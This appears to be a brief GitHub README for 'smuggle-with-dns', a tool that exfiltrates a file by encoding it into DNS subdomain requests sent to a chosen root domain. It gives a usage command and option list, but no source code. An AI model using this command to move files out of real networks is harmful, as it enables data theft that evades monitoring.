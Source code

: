 # smuggle-with-dns
exfiltrate file with dns (for now)


simple tool to exfiltrate file with dns


# Usage
```bash
python3 swd.py --file path_to_file --domain root_domain --buffer length_of_string
```

# Setup
<i> -h => help menu </i>
<i> --file => path of file </i>
<i> --domain => root domain to send request </i>
<i> --buffer => subdomain string size, default 16 </i>
